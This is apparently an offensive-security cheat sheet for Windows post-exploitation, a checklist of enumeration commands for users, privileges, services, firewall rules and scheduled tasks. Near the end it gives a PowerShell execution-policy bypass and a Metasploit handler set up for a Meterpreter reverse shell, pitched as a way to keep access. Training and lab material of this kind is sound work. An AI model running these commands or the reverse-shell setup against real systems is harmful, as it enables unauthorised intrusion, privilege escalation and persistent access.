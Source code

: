 **TL;DR**  
+ **WHOAMI**?  
whoami  
+ **CAN I DO SPECIAL THINGS**?  
WHOAMI /PRIV  
+ **SERVICES** **-->** SERVICES AT BOOT **&** SERVICES RAN THROUGH **ICACLS**.**EXE**  
wmic service get name,startname  
NET START  
+ **NETWORK** **CAPABILITIES?** (CHECKS FOR 127)  
+ **SHELL** **CAPABILITY** **-->** STAGED/NON-STAGED? FORMAT? ARCH? ENCODER? BIND/REVERSE?  
+ **SHELL** **CAPABILITY** **-->** ENSURE CODE EXEC.  
+ **NETWORK CAPABILITY.**  
NETSTAT -ANOY  
+ **NET USERS** (LATERAL MOVEMENT CAPABILITIES?)  
NET USERS  
NET LOCALGROUP  
NET USER <USERNAME> (AM I ADMIN? ANY SPECIAL GROUPS?)  
+ **ADMIN CAPABILITY?**  
NET LOCALGROUP ADMINISTRATORS  
+ **PERMITTED TRAFFIC** **CAPABILITY**???  
netsh advfirewall firewall show rule name=**all**  
netsh advfirewall firewall show rule name=**inbound**  
netsh advfirewall firewall show rule name=**outbounD**  
+ **FILE TRANSFER CAPABILITY**???  
CERTUTIL?  
FTP?  
TFTP?  
VB?  
PS?  
SMB?  
NFS?  
+ **ANY SCHEDULED TASKS I/O OPERATIONS**?  
C:\ > schtasks /query /fo LIST /v > schtasks.txt  
+ **BINPATHS**?  
SC.EXE  
[ **+** More to Come ]  
  
**Other Articles:**  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)  
[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)  
  
+ **Pro-tip - To prevent your shell from hanging as a result of any of these commands, prefix them with this!**  
cmd.exe /c <commands>  
cmd.exe /c start <commands>  
  
**+ Pro-tip - Windows Powershell Execution Policy Bypass:**  
PowerShell.exe -ExecutionPolicy UnRestricted -File .shell.ps1

  
+ **I just got shell on windows! What would S1REN do?**  
**-->** Get a meterpreter shell.  
When it comes to a windows machine and receiving a low privilege shell - I do not mess around. I will always immediately work to maintain access and gain a more useful shell with meterpreter.  
msfconsole  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST <Attacking Machine IP>  
set LPORT <Listening Port>  
  